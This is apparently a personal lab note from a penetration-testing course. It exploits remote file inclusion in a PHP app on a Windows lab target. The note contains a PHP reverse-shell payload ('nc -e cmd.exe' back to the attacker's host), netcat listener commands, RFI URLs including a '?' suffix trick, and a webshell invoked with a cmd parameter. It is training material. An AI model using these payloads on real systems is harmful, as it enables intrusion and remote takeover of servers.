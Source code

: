 9.4.4.7

# 9.4.4.7
## 9.4.4.7.1. Exploit the RFI vulnerability in the web application and get a shell.

Note: PHP apps must be configured with *allow_url_include* set to "On".

On Kali, create a file in /var/www/html called cmdshell.txt. This file will contain php code to run a netcat client that sends cmd.exe upon connection.
```plaintext
ali@kali:/var/www/html$ cat cmdshell.txt 
<?php echo exec("nc -nv 192.168.119.214 5678 -e cmd.exe"); ?>
```

Start apache
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on port 5678
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

From  Windows machine, browse to Kali's cmdshell.txt file
192.168.214.10/menu.php?file=http://192.168.119.214/cmdshell.txt
![e1bfe421b8eb82b3aa2d6a8c797408a0.png](:/fae3f24c278d48e69ff259313aebfe48)

Notice we now have a shell
![180d353a143ce988df88cc3c34531a2a.png](:/1369e480a1ec485e9d5e666f8d63eaf4)



## 9.4.4.7.2. Using **/menu2.php?file=current_menu** as a starting point, use RFI to get a shell.

Start a netcat listener on Kali
```plaintext
kali@kali:/var/www/html$ sudo nc -lvnp 5678
listening on [any] 5678 ...
```

Remember that sometimes the server will append .php to any file. Use a null byte or ? to terminate the string so that you have more flexibility in which files you use for RFI. In this case, we add a ? to menu2.php and cmdshell.txt

Browse to this site:
`http://192.168.214.10/menu2.php?file=current_menu?&file=http://192.168.119.214/cmdshell.txt?`
![6e4c1b3daa0dbab31a5cb59e86187520.png](:/0a49acfcd073491bbdbf40614cc37266)

Notice we now have a shell
![74cac672972b57b60322a62854512687.png](:/9cd1363016aa4713ac692c9537a0e8ea)



## 9.4.4.7.3. Use one of the webshells included with Kali to get a shell on the Windows 10 target.

Copy simple.backdoor.php to web root
```plaintext
kali@kali:/var/www/html$ sudo cp /usr/share/webshells/php/simple-backdoor.php 
```

Change the extension file from .php to .txt
```plaintext
kali@kali:/var/www/html$ sudo mv simple-backdoor.php simple-backdoor.txt
```

Restart apache2
```plaintext
kali@kali:/var/www/html$ sudo systemctl start apache2
```

Start a netcat listener on Kali port 5678
```plaintext
kali@kali:~$ sudo nc -lnvp 5678
listening on [any]
```

Browse to the site
http://192.168.214.10/menu.php?file=http://192.168.119.214/simple-backdoor.txt&cmd=nc+-nv+192.168.119.214+5678+-e+cmd.exe
![4eeed43611fa80171aeef6af5bc4bf12.png](:/c6f59e8b00fe4ad9863c15eb3354967b)

Notice we have a shell
![a64dec96b8a226a0948c05eed6565b0a.png](:/1dd11856ba3a4e2c9b01f5ada01ee82b)

id: 7ded4c3a0fb44523ba19f1121d127399
parent_id: 1798ca9b751d4b5c82f1283278c8d1f7
created_time: 2020-10-02T21:22:58.963Z
updated_time: 2020-10-02T21:23:00.455Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-10-02T21:22:58.963Z
user_updated_time: 2020-10-02T21:23:00.455Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1